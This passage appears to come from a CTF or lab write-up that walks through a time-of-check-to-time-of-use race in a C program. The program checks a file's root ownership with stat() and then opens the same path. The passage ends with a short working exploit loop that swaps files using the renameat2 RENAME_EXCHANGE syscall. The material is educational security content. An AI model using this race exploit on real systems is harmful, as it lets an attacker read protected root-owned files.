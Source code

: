 Here we need to focus… let’s examine the flow of the program again, and we can see that it uses **argument argv\[1\]** two times in the file at significant interval.

once at Line 19 :

```C
if (stat(argv[1], &stat_data) < 0) {
```

And then in Line 30 :
```c
fd = open(argv[1], O_RDONLY);
```

Interestingly, **it check for the root ownership with the first use** and then actually opens the file to **display the contents from second usage.**

Now imagine if we are able to change the file in between two uses of the argument we might be able to tell the program that the file is not owned by root and then pass on the file owned by root to open !!

Let’s try to understand this with a diagram.

![](https://miro.medium.com/max/1400/1*rLkHV47bazGNdWza9kPkmQ.png)

<div id="exp"></div>

### The Exploit

To exploit this vulnerability, we need to quickly swap the files before the other function calls it.

After watching lots and lots of tutorials on system calls, Linux file management etc. in hopes to find any solution to this, eventually bumped into one.

Okay, so we are going to use following things in our exploit

* SYS_renameat2 [Systemcall] : [MAN7.ORG/LINUX/MAN-PAGES](http://man7.org/linux/man-pages/man2/rename.2.html)

Our idea is to swap / rename the two files so fast that we are able to pull off above described maneuver.

Here is a small C code that can help us do that :

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```
